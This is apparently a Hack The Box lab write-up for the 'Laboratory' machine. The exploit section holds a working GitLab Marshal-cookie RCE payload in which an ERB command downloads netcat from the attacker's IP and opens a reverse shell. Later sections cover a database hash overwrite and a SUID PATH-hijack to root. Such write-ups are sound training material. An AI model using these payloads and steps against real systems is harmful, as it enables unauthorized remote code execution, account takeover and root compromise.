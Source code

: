 ```yaml
---
title: "HTB Laboratory"
date: 2020-11-26
layout: single
excerpt: "Writeup for an old box I did long ago called Laboratory"
classes: wide
header:
  teaser: "/assets/images/HTB_Laboratory/Laboratory.png"
  teaser_home_page: true
  #icon: "/assets/images/HTB_Laboratory"
categories:
  - HTB
tags:
  - Git-Lab
  - Apache
  - Brute Force
  - SUID
---
```



## Purpose: HTB Laboratory

I'm taking notes from an old HTB I did some time ago and going to try to do a writeup. Thus, expect some incompletness!

Laboratory is an easy box that leverages a gitlab RCE vulnerablity to pivot into a docker container. From there rewriting the SQL datebase hashes allows you login to gitlab as an admin user, and you can grab an ssh rsa key. With this key you can ssh into the docker host to grab user and then exploit a pathing mistake to trick a suid binary to give you a root shell.

## I begin by adding "laboratory.htb" to my hosts file
- This helps fix virtual hosting issues with web servers that sometimes messes things up if using a direct ip address 

## Next, I do a NMAP:

`nmap -sV -sC -oN Laboratory 10.129.40.119`

```bash

Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-16 11:06 UTC
Nmap scan report for 10.129.40.119
Host is up (0.15s latency).
Not shown: 997 filtered ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to https://laboratory.htb/
443/tcp open  ssl/http Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: The Laboratory
| ssl-cert: Subject: commonName=laboratory.htb
| Subject Alternative Name: DNS:git.laboratory.htb
| Not valid before: 2020-07-05T10:39:28
|_Not valid after:  2024-03-03T10:39:28
| tls-alpn:
|_  http/1.1
Service Info: Host: laboratory.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.91 seconds

```

## Next I Enmurate WebPage at Port 443
- Found an Apache page
- After poking around, it seems like there are many places to login, but brute forcing seems to be out of the question since this box appears to be rate limiting requests (trust me on this, it took hours to figure this out)
- Found a gitlab prompt at `git.laboratory.htb` that appears to allow me to create a user account. I have to use **laboratory.htb** as my email provider however.
- This is nice, but as a basic user I don't seem to be able to do much.

## Enumerating OSINT and exploiting gitlab vulnerablities
- After some digging I found this: https://hackerone.com/reports/827052
  - This has two vulns, an LFI and an RCE (RCE is located in comments section, don't miss this like I did!)
- The LFI isn't very helpful since I don't seem to be able to read anything important, however the RCE could give me an shell.
- After some tinkering I found how to get a shell by:
  1. Downloading/Installing Ruby and using this payload generation script: (note, the correct playload I used is also displayed)

      ```ruby
      def genPayload()
            request = ActionDispatch::Request.new(Rails.application.env_config)
            request.env["action_dispatch.cookies_serializer"] = :marshal
            cookies = request.cookie_jar

            erb = ERB.new("<%= `curl --connect-timeout 3 10.10.14.31:443/nc > /tmp/nc; chmod +x /tmp/nc; /tmp/nc 10.10.14.31 3333 -/bin/sh` %>")
            depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "@result", ActiveSupport::Deprecation.new)
            cookies.signed[:cookie] = depr
            puts cookies[:cookie]
      end

      ```
  2. From above they playload downloads **nc** from my machine. Use python simple http server for this (run this in dir of nc):

      ```python
      python -m http.server 443
      ```
  3. After the script is ran with payload it will generate a cookie that you need to add to a burp web reqest. To run script: (Make sure you are logged on as the user you created for gitlab and use the gitlab-rails console to run) (if you don't do this under your user account, it will not generate the correct cookie!)

      ```bash
      load "/tmp/rails/payload.rb"
      genPayload
      ```
  4. Now paste this cookie in the following burp request after **Cookie: experimentation_subject_id=**: (don't forget to URL ENCODE)

      ```
      GET /users/sign_in HTTP/1.1
      Host: git.laboratory.htb
      User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
      Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
      Accept-Language: en-US,en;q=0.5
      Accept-Encoding: gzip, deflate
      Referer: https://git.laboratory.htb/dashboard/snippets
      DNT: 1
      Connection: close
      Cookie: experimentation_subject_id=
      Cache-Control: max-age=0
      Content-Length: 6
      ```

  5. Now verify you have your python web server setup and nc is listening on your machine, then send the reqest away, this should return a reverse shell!

## Container Enumeration/Database overwrite

- Once Inisde the box I immediatly tried to get the user flag, however it was nowhere to be found. 
- The Environment looked limited so I guessed something was up, but at the time was more concertned about root access.
- After running some enum scripts I found that the gitlab database was writeable. Since I created my user account earlier I wanted to see if I could find my user and hash
- After some research I found that I could backup and restore gitlab:

```
gitlab-backup create
# Location of backups:
# /var/opt/gitlab/backups/
gitlab-backup restore
```

- Thus, I created a backup, downloaded the backup to my machine and copied my user hash over the "dexter" account's hash in the database, thus making my password dexter's password.
- After the restoring the backup on Laboratory.htb I found that I was able to login as dexter
- After snooping in dexter's account I found some private git repos, one of which contained a private RSA key:
![](/assets/images/HTB_Laboratory/20220709142023.png)  
![](/assets/images/HTB_Laboratory/20220709142048.png)  


## User and Root

- So I have an rsa key, so logged into box with

```
ssh -i id_rsa dexter@10.10.10.216
```
- Now with login as Dexter I was able to grab the **user.txt**
- Basic enumeration yielded that gitlab was indeed running in an container
- After some enumeration I was able to find an unusual binary called "docker-security", which had the suid set
- If the "strings" command is ran on this binary I was able to see that it calls the "chmod" binary to do something, however chomd is called with a realitive path, thus relying on the path variable. 
- Since the current environment has a path variable that is mutable I changed to the path to
```
PATH="/tmp/:$Path"
```
- And then setup a script called "chmod" in "/tmp":
```
#!/bin/bash
bash
```
- Now running "docker-secuirty" will yeild a root shell, thus grabbing **root.txt**


## Summary Map
NMAP --> Discovered https prots open --> Enmurated to find static site with a git lab site --> Tried logging in, failed --> enmurated some more to find a possible user name dexter --> used static page refs to find what dexter might use as a password --> started brut forcing git lab password --> failed due to rate limiting --> recalibrated --> figured out I could login as a user to gitlab (register) --> Enmurated exploit upon learning gitlab version via authenticated api --> found I could execute artbitualy file reads --> Enmuarated gitlab file sturture by creating mirred instance on my own vm --> downloaded serects.yml after researching its value --> enmuarted furthere exploits --> disocved rce with secrets.yml data --> generated malicouse cookie --> reverese shell --> enmurated system --> eventually discovered backup capability with permissions to execute --> made backup and transfered outside --> examined contents --> researched contents --> discovered hashes can be swapped --> copied over hash over the admin(dexter) with my registered account --> resetored backup --> logged into gitlab as admin(dexter) --> found hidden project contained ssh rsa private key --> enmurated system once more to find how to use rsa key --> found system was a docker container --> used rsa key to ssh into host machine as dexter --> user flag --> enmuarted system --> disovered custom SUID binary --> examined binary function and discovered it used releative paths for calls --> changed local user's path and created "custom" script to run in place of orginal call --> root

